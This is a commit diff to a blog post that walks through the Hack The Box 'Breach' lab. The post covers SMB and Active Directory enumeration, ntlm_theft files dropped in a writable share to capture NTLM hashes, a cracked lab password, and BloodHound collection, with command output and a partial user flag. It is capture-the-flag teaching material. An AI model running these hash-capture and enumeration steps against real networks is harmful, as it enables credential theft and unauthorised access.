

Before and after one commit to SudoKy0t0/SudoKy0t0.github.io, a Jekyll site: the page built from _posts/2026-02-25-htb-breach-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 9103 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 9733 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2026-02-25-htb-breach-writeup.md

````diff
--- a/_posts/2026-02-25-htb-breach-writeup.md
+++ b/_posts/2026-02-25-htb-breach-writeup.md
@@ -93,7 +93,9 @@ ff02::2         ip6-allrouters
 
 ### Enum4linux
 
-I always like to run an initial scan with enum4linux-ng with no credentials, sometimes we could gather a low haning fruit. Besides, eum4linux provides us with valuable information, like the SID of the domain.
+I always like to start with an initial enum4linux-ng scan without credentials, sometimes you can grab some low-hanging fruit right away.
+
+Even if anonymous access is limited, enum4linux-ng can still provide useful information, such as the domain SID, basic domain details, SMB configuration, and sometimes even user or share information. It’s a quick win and helps build a clearer picture of the environment before moving into authenticated enumeration.
 
 ```bash
 ┌──(kali㉿kali)-[~/hackthebox/breach]
@@ -452,6 +454,7 @@ smb: \> ls
   Desktop.ini                       AHS      934  Sat May  8 04:18:35 2021
   File Explorer.lnk                   A      407  Sat May  8 04:14:58 2021
   Run.lnk                             A      409  Sat May  8 04:14:58 2021
+...
 ```
 
 The other share goes pretty deep, and it looks like it contains the default user configuration. It seems to be the template Windows uses when creating new user profiles. I took a quick look at it but it seemed more like a rabbit hole.
@@ -491,7 +494,7 @@ Created: test/test.lnk (BROWSE TO FOLDER)
 Generation Complete.
 ```
 
-Alternatively, if it’s unclear which file extensions are actually being rendered, we can use the -g all option. This tells the tool to generate files for every supported extension.
+Alternatively, if it’s unclear which file extensions are actually being rendered, we can use the `-g all` option. This tells the tool to generate files for every supported extension.
 
 That way, we cover all possible triggers. We simply drop the full batch of generated files into the writable SMB share and wait and if Windows processes any of them automatically, we should receive an NTLM authentication attempt.
 
@@ -567,9 +570,9 @@ After just some seconds, the hash cracked succesfully and we have the credential
 First thing I'll check with the newly obtained credentials is to run another enum4linux scan, as well as re-check the shares in smb. While we do this, it's good to let Bloodhound collect the data in the background.
 
 <details>
-<summary>enum4linux-ng Output</summary>
+<summary><strong>enum4linux-ng Output</strong></summary>
 
-```bash
+<pre><code>
 #
 ┌──(kali㉿kali)-[~/hackthebox/breach/ntlm_theft/test]
 └─$ enum4linux-ng -u julia.wong -p 'Computer1' breach.vl
@@ -981,4 +984,63 @@ Domain logoff information:
 [+] No printers available
 
 Completed after 20.85 seconds
+</code></pre>
+</details>
+
+Now we can see we have a lot more permissions. I'll take note of the users and groups, as well as other interesting information we could gather. I'll use bloodhound-python to collect the data to import it in bloodhound.
+
+```bash
+┌──(kali㉿kali)-[~/hackthebox/breach/bh]
+└─$ bloodhound-python -c all,Group,Session,DCOM,RDP,PSRemote,LoggedOn,Container,ObjectProps,ACL -d "breach.vl" -ns 10.129.8.90 -v -u julia.wong -p 'Computer1'
+INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
+DEBUG: Authentication: username/password
+DEBUG: Resolved collection methods: dcom, loggedon, trusts, session, localadmin, objectprops, psremote, rdp, container, group, acl
+DEBUG: Using DNS to retrieve domain information
+DEBUG: Querying domain controller information from DNS
+DEBUG: Using domain hint: breach.vl
+....
 ```
+
+SMB wise, I'll check with nxc again.
+
+```bash
+┌──(kali㉿kali)-[~/hackthebox/breach/bh]
+└─$ nxc smb breach.vl -u julia.wong -p 'Computer1' --shares
+SMB         10.129.8.90     445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:None) (Null Auth:True)
+SMB         10.129.8.90     445    BREACHDC         [+] breach.vl\julia.wong:Computer1
+SMB         10.129.8.90     445    BREACHDC         [*] Enumerated shares
+SMB         10.129.8.90     445    BREACHDC         Share           Permissions     Remark
+SMB         10.129.8.90     445    BREACHDC         -----           -----------     ------
+SMB         10.129.8.90     445    BREACHDC         ADMIN$                          Remote Admin
+SMB         10.129.8.90     445    BREACHDC         C$                              Default share
+SMB         10.129.8.90     445    BREACHDC         IPC$            READ            Remote IPC
+SMB         10.129.8.90     445    BREACHDC         NETLOGON        READ            Logon server share
+SMB         10.129.8.90     445    BREACHDC         share           READ,WRITE
+SMB         10.129.8.90     445    BREACHDC         SYSVOL          READ            Logon server share
+SMB         10.129.8.90     445    BREACHDC         Users           READ
+```
+
+If we go back a little, we had a directory under the name of julia.wong inside `"share"`, I'll check that out.
+
+```bash
+smb: \transfer\julia.wong\> ls
+  .                                   D        0  Wed Apr 16 20:38:12 2025
+  ..                                  D        0  Wed Feb 25 12:49:48 2026
+  user.txt                            A       32  Wed Apr 16 20:38:22 2025
+
+                7863807 blocks of size 4096. 1517795 blocks available
+smb: \transfer\julia.wong\>
+```
+
+The user.txt is there, we just have to get it and read it.
+
+```bash
+smb: \transfer\julia.wong\> get user.txt
+getting file \transfer\julia.wong\user.txt of size 32 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
+smb: \transfer\julia.wong\> exit
+```
+```bash
+┌──(kali㉿kali)-[~/hackthebox/breach/bh]
+└─$ cat user.txt
+55d33e....
+```
````
Also changed, not shown: other parts of _posts/2026-02-25-htb-breach-writeup.md (+1 -1 lines).
